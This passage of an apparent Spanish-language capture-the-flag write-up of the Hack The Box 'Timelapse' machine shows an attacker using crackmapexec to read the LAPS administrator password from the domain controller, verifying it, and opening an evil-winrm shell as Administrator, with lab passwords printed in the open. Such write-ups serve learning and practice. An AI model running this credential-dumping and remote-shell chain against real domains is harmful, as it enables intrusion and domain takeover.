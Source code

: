```
crackmapexec ldap 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' –kdcHost 10.10.11.152 -M laps

SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.152    389    DC01             [+] timelapse.htb\svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV 
LAPS        10.10.11.152    389    DC01             [*] Getting LAPS Passwords
LAPS        10.10.11.152    389    DC01             Computer: DC01$                Password: k./#7,%N)Jz(s;RI)7JPOHDS
```
Observamos que tenemos la contraseña, esta corresponde a la de administrador de dominio, pues LAPS sirve para eso, por lo tanto, vamos a verificar con `crackmapexec` si es correcto:
```
crackmapexec smb 10.10.11.152 -u 'Administrator' -p 'k./#7,%N)Jz(s;RI)7JPOHDS'

SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.152    445    DC01             [+] timelapse.htb\Administrator:k./#7,%N)Jz(s;RI)7JPOHDS (Pwn3d!)
```
Si, asi que utilizando `evil-winrm` entramos:

```
evil-winrm -i 10.10.11.152 -u 'Administrator' -p 'k./#7,%N)Jz(s;RI)7JPOHDS' -S

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

Ahora solo debemos encontrar la flag de administrador, sin embargo, no se encuentra en su directorio, pero existe un usuario que también es administrador:
```
C:\Users> net user TRX
User name                    TRX
Full Name                    TRX
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/23/2022 5:43:45 PM
Password expires             Never
Password changeable          2/24/2022 5:43:45 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
```